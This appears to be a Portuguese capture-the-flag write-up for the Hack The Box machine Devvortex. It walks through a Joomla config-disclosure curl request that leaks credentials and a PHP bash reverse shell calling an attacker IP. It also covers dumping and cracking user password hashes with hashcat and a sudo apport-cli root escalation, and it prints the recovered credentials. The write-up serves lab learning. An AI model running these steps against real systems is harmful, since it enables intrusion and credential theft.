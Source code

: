 # ****Devvortex****

 ### * Scan de portas
```bash
rustscan -a 10.10.11.242
```
![image](https://github.com/lufffe/Writeups/assets/90646635/04203fdd-74a7-4902-b29b-740ad6fa1011)

```bash
nmap -A -p 22,80 10.10.11.242
```
![image](https://github.com/lufffe/Writeups/assets/90646635/9db39e95-1f85-4f2e-a717-b0cd5d961156)

 ###  * Scan de Arquivos e Diretórios
```bash
ffuf -w directory-list-2.3-medium.txt -u http://devvortex.htb/FUZZ -e html,php,txt,sh,bkp -t 100
```
![image](https://github.com/lufffe/Writeups/assets/90646635/2f2803a0-0a0d-486d-9006-1fb15ca1552e)

- Não sei o que houve, mas não aparecia nada na busca por subdominios e tinha um chamado dev (VISTO EM WRITEUP)
![image](https://github.com/lufffe/Writeups/assets/90646635/d1244e54-1d83-4ad6-bd92-ee46237f1a14)

![image](https://github.com/lufffe/Writeups/assets/90646635/85d03106-e153-4aa2-8ebf-5ec860f75010)

```bash
ffuf -w wl/directory-list-2.3-medium.txt -u http://dev.devvortex.htb/FUZZ -e html,php,txt,sh,bkp -t 100
```
![image](https://github.com/lufffe/Writeups/assets/90646635/0ef0d5ef-8fa5-49df-96c4-a233b5b3fc8c)

 ###  * Pagina de login do Administrador
![image](https://github.com/lufffe/Writeups/assets/90646635/393aa113-9ce4-46f4-8145-118bc4a3fc52)

 ###  * Busca por exploit do Joomla
![image](https://github.com/lufffe/Writeups/assets/90646635/f8375ed9-1fb0-40de-97f1-b721d2ec62d5)

### * Encontrado um exploit em ruby
https://github.com/Acceis/exploit-CVE-2023-23752

- Como eu não conseguir executar o codigo em ruby / Procurei por outras formas
![image](https://github.com/lufffe/Writeups/assets/90646635/a1a7d4b6-00c9-43a1-8bb3-3fcc8e5de2ef)

### * Encontrado uma forma usando o curl
[https://luisfelipe146.medium.com/cve-2023-23752-joomla-acesso-impróprio-de-arquivos-não-autorizados-553d7e92d399](https://luisfelipe146.medium.com/cve-2023-23752-joomla-acesso-impr%C3%B3prio-de-arquivos-n%C3%A3o-autorizados-553d7e92d399)

root@server:/# curl http://localhost:8080/api/index.php/v1/config/application?public=true

### * Curl para conseguir as informações da falha de information disclosure do Joolma
```bash
curl http://dev.devvortex.htb/api/index.php/v1/config/application?public=true
```
![image](https://github.com/lufffe/Writeups/assets/90646635/ee9c674d-1e76-49dd-9131-a411bb07a820)

### * Login e senha Pagina administrador
lewis / P4ntherg0t1n5r3c0n##

## Site que eu achei como fazer um reverse shell no Joomla

https://vk9-sec.com/exploitation-reverse-shell-joomla/

**System->Templates->Administrator Templates**

![image](https://github.com/lufffe/Writeups/assets/90646635/b4831375-db69-47c0-bf17-5e56bd593cc2)

> **system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.202/4455 0>&1'");**

## Retornando a pagina inicial o payload era executado
![image](https://github.com/lufffe/Writeups/assets/90646635/691af4d8-0107-4b34-8aca-8230a9ce1952)

- Conseguir a shell, mas o usuário era o www-data, não tinha permissão para ler a flag user
![image](https://github.com/lufffe/Writeups/assets/90646635/e6c3c74e-a9f5-4f84-8507-6813648a0f0f)

### * Acessando Mysql para procurar credenciais
```bash
mysql -u lewis -p
```
![image](https://github.com/lufffe/Writeups/assets/90646635/3884f3df-6c28-4485-82b1-e0d48791c0b9)

![image](https://github.com/lufffe/Writeups/assets/90646635/039b68c4-0868-4247-98c9-e423650877a8)

```bash
use joomla;
```

```bash
show tables;
```
![image](https://github.com/lufffe/Writeups/assets/90646635/bf43fe3c-6afb-4829-8b99-3e49f98adb1d)

```bash
select * from sd4fg_users;
```
![image](https://github.com/lufffe/Writeups/assets/90646635/7d15b93f-c78e-48cb-a75f-ff5fd4082030)

### * Encontrado logins e hash das senha
lewis / $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u

logan / $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12

### * Descobrindo a senha com o Hashcat
```bash
hashcat -m 3200 -a 0 hash.txt ../rockyou.txt
```
![image](https://github.com/lufffe/Writeups/assets/90646635/5639cc56-3621-46da-b0b6-681adfa41876)
> tequieromucho

![image](https://github.com/lufffe/Writeups/assets/90646635/762a185d-0b58-4ad9-abcb-fc7bb1485774)

### * Finalmente a flag User

```bash
cat user.txt
```

### * Procurando formas de escalar para Root
```bash
sudo -l
```
![image](https://github.com/lufffe/Writeups/assets/90646635/00e9fff7-49ed-4e92-a206-b25ac3634aed)

### * Encontrado uma fomra de escalar usando o apport-cli
https://vk9-sec.com/cve-2023-1326privilege-escalation-apport-cli-2-26-0/

```bash
sudo /usr/bin/apport-cli --file-bug
```

![image](https://github.com/lufffe/Writeups/assets/90646635/0cc86ff1-4d7c-4099-9d8e-f7f37bef92a3)

![image](https://github.com/lufffe/Writeups/assets/90646635/0843ee65-7fc6-4bc3-868a-39fc05df0085)

![image](https://github.com/lufffe/Writeups/assets/90646635/93afeb7d-a8f3-471c-be49-12cd7319f422)

```!/bin/bash```

### * E chegamos ao usuário root e finalizando pegando a flag Root
```bash
cat /root/root.txt
```
